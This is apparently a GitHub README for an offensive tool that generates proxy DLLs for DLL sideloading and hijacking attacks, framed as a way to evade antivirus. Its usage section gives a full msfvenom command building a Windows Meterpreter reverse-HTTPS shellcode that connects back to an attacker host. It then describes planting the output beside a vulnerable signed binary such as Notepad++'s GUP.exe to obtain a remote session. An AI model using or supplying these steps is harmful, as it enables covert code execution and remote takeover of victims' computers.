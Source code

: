 # SideLoadingDLL

Python script to generate "proxy" DLL files load unsafely by binaries on runtime, makes it super easy to perform a DLL Sideloading attack or hijacking.
This implementation makes sure that all system calls still go through ntdll.dll to avoid the usage of direct systemcalls.

See the below articles for more details
https://flangvik.com/privesc/windows/bypass/2019/06/25/Sideload-like-your-an-APT.html
https://flangvik.com/2019/07/24/Bypassing-AV-DLL-Side-Loading.html

demo's is using GUP.exe signed from NotePad++, loading a malicious libcurl sideloading malware:

Sideloading ncrypt.dll( meterpreter session)
![Meterpreter sideload](https://github.com/MaorSabag/SideLoadingDLL/blob/main/demo/screen-capture.gif)

## Dependencies
- x64 Native Tools Command Prompt for VS
- Python3

## Usage
- Find a binary that is vulnerable to SideLoading/DLL Hijacking
- Create a shellcode (msfvenom -p windows/x64/meterpreter_reverse_https LHOST=eth0 LPORT=443 -f raw -o shellcode.bin)
- Run the make.py file with the arguments needed
- Copy the files from the Output directory to the vulnerable program and make sure the injected process is open
- Run the program and get a session back!!


## Credits 
- [Sektor7's RTO Malware Essential Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [Flangvik](https://twitter.com/Flangvik)'s [SharpDllProxy](https://github.com/Flangvik/SharpDllProxy)
- [thefLink](https://github.com/thefLink)'s [RecycledGate](https://github.com/thefLink/RecycledGate)
